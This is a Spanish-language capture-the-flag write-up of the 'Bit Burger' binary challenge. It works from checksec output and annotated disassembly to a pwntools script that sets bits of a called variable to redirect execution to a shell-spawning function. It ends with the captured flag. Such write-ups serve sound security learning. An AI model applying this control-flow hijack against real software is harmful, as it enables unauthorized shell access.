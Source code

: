 # Bit Burger

Revisamos las propiedades del binario:

```
checksec --file=bit_burger.bin
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Partial RELRO   Canary found      NX enabled    No PIE          No RPATH   No RUNPATH   54 Symbols	  No	0		1		bit_burger.bin
```

El binario no tiene PIE

En la funcion take_order se crea un puntero a una variable de 8 bytes que solo se actualiza cuando el usuario introduce una 'y' para asignar el valor 1 al byte correspondiente:

![2025-03-24-144629_520x21_scrot](https://github.com/user-attachments/assets/9c5d341d-89f2-4b0c-8d48-eb735f46a248)

![2025-03-24-144649_881x178_scrot](https://github.com/user-attachments/assets/bad17475-8f6e-4ff5-9016-2c5e5e0989d4)

```
|     |:|   0x00401496      488b45f0       mov rax, qword [var_10h]   # Copia el contador a rax
|     |:|   0x0040149a      ba01000000     mov edx, 1                 # Copia 1 a edx
|     |:|   0x0040149f      89c1           mov ecx, eax               # Copia el contador a ecx
|     |:|   0x004014a1      d3e2           shl edx, cl                # Deplazamiento hacia la izquierda [contador] bytes
                                                                        para crear una mascara de bits
|     |:|   0x004014a3      89d0           mov eax, edx               # Copia la mascara a eax
|     |:|   0x004014a5      4898           cdqe                       # Extiende el vlaor de 32 bits en eax a un valor de 64 bits
|     |:|   0x004014a7      480945e8       or qword [var_18h], rax    # Realiza un OR con la mascara y los bits de la variable,
                                                                        cambiando a 1 el bit correspondiente
```

Luego de la funcion take_order se llama a choose_style, que toma una entrada de 7 bytes y si falla una comparacion intenta llamar a la variable var_18h

![2025-03-25-094648_879x78_scrot](https://github.com/user-attachments/assets/da572f6e-83a4-497f-bb9e-891fdc80e00e)

![2025-03-25-094805_632x23_scrot](https://github.com/user-attachments/assets/a13cf299-e59a-48e0-9e8b-d77f587b0acb)

![2025-03-24-144829_1350x217_scrot](https://github.com/user-attachments/assets/60b89936-6c10-4b61-82ed-68afac4b0aff)

En la funcion manager_control_panel hay un pequeño codigo que invoca una shell:

![2025-03-25-095459_933x174_scrot](https://github.com/user-attachments/assets/8256bf30-c38a-4969-9e52-f875bfe18023)

Resumen:
- Las direcciones de memoria en el binario no sobrepasan los 24 bits
- Las direcciones del binario no cambian (no PIE)
- Podemos controlar hasta los primeros 24 bits de una variable
- Podemos redirigir el flujo del programa a esa variable

``` python
from pwn import *
elf = context.binary = ELF('./bit_burger.bin')
context.log_level = "error"
io = remote("binex-bitburger.ctf.ritsec.club",32200)
#io = process("./bit_burger.bin")

number = 0x401346
for i in range(24):
    if (1 << i) & number == 0:
        io.sendlineafter(b"(y/n)?", b"n")
        print("0")
    else:
        io.sendlineafter(b"(y/n)?", b"y")
        print("1")

io.sendlineafter(b"grilled or fried?: ", b"hehe")
io.interactive()
```

![2025-03-23-211015_438x344_scrot](https://github.com/user-attachments/assets/29b02791-96f6-4e86-85cb-5844ae322086)

`RS{b1ts_4nd_byt3s_4r3_0n_the_m3nu}`


